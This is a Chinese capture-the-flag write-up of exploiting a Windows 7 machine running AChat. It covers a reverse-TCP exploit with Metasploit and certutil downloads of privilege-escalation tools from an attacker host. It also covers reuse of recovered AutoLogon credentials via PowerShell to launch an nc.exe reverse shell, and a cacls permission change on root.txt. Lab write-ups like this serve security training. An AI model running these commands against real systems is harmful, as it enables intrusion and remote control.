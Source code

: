 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/grZYtyZ-6FFdVieKvN3byw)

点击上方 “蓝字” 关注公众号获取最新信息!

> 本文作者：Twe1ve（贝塔安全实验室 - 核心成员）

![](https://mmbiz.qpic.cn/mmbiz_png/lFOEJLHA9qkITKc4PTCiawLuicN8z4hQFYZibuGMmq4GmKP9xiaia4ibCnPLdiamOZssnIWFjiaQwFx2IOPcRUGjPpfVJA/640?wx_fmt=png)

nmap 扫描结果：  

```
PORT     STATE SERVICE VERSION
9255/tcp open  http    AChat chat system httpd
|_http-server-header: AChat
|_http-title: Site doesn't have a title.
9256/tcp open  achat   AChat chat system
```

Achat Exploit ： https://www.youtube.com/watch?v=YgC_Rl6x3aM

**1. 生成 paylaod**

```
kali@kali:~/tools/others/AChat-Reverse-TCP-Exploit$ bash AChat_Payload.sh
RHOST: 10.10.10.74LPORT: 4444
LHOST: 10.10.14.61
```

**2. 用生成的 payload 替换 py 脚本中的 payload，并修改 server_address**

**3.msf**

```
use exploit/multi/handler
set payload windows/shell/reverse_tcp
...
```

**4.python AChat_Exploit.py**

### 得到一个用户 shell，post/multi/manage/shell_to_meterpreter  ### 升级为 meterpreter shell，此处是升级失败

msf suggest 提权模块不能获取可以提权的模块使用提权脚本看一下

由于是 windows 7，使用证书下载试试看

```
certutil.exe -urlcache -split -f http://10.10.14.61:8000/winPEAS.exe  1.exe
certutil.exe -urlcache -split -f http://10.10.14.61:8000/ms16-075.exe  2.exe
certutil.exe -urlcache -split -f http://10.10.14.61:8000/41015.exe  3.exe
.....
```

提权模块都失败

winPEAS：

```
Some AutoLogon credentials were found!!
    DefaultUserName               :  35mAlfred
    DefaultPassword               :  Welcome1!
```

撞一下密码：(这里没想到的是这台 win 7 竟然装了 powershell)

```
$pass = convertTo-SecureString 'Welcome1!' -AsPlainText -Force                     
$cred= New-Object System.Management.Automation.PSCredential("Administrator",$pass)
Invoke-Command -Computer Sniper -ScriptBlock { whoami } -Credential $cred  ###验证是否是正确的凭证
Invoke-Command -Computer Sniper -ScriptBlock { dir } -Credential $cred
Invoke-Command -Computer Sniper -ScriptBlock { C:\ProgramData\nc.exe 10.10.15.64  9999 -e cmd.exe } -Credential $cred
```

**另一种玩法：**

#### 由于直接直接查看 root.txt，只是拒绝用户访问，所以可以通过修改 root.txt 的文件权限来使它可读

```
cacls.exe c:\users\Administrator\Desktop\root.txt /c /e /t /g Alfred:F
```